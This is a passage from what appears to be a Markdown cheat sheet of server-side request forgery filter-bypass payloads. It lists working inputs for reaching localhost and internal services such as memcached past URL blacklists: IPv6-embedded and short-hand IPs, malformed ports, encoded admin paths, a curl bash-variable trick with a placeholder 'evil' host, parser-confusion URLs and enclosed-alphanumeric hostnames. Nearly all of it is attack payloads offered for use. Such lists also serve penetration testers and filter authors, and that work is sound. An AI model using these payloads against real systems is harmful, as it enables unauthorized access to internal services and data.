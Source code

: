 [IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

```powershell
http://[0:0:0:0:0:ffff:127.0.0.1]
```

### Bypass using malformed urls

```powershell
localhost:+11211aaa
localhost:00011211aaaa
```

### Bypass using rare address

You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass using URL encoding

[Single or double encode a specific URL to bypass blacklist](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

```powershell
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

### Bypass using bash variables 

(curl only)

```powershell
curl -v "http://evil$google.com"
$google = ""
```

### Bypass using tricks combination

```powershell
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

### Bypass using enclosed alphanumerics 

[@EdOverflow](https://twitter.com/EdOverflow)

```powershell
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
